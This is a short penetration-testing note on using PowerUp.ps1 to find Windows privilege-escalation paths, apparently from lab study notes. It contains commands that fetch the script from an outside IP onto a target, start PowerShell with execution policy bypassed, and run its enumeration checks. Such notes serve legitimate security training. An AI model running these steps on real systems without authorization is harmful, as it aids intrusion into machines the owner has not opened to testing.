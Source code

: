 # PowerUp.ps1

automated tool to detect the priv esc vector

{% code overflow="wrap" %}
```
PS C:\Users\dave> iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1 
PS C:\Users\dave> powershell -ep bypass 
... 
PS C:\Users\dave> . .\PowerUp.ps1 
```
{% endcode %}

_powershell -ep bypass_ - start powershell with ExecutionPolicy Bypass. Otherwise, it won’t be possible to run scripts as they are blocked.

_Get-ModifiableServiceFile_ - displays the services the current user can modify, such as the service binary or config files

```
Get-ModifiableServiceFile
```

_Invoke-AllChecks_ – displays a full set of privilege escalation checks the current user can run, including modifiable services, unquoted paths, and weak permissions.

```
Invoke-AllChecks
```

* will show any quick wins
* tells us what to look for in winpeas
* tells us if we need to do UAC bypass
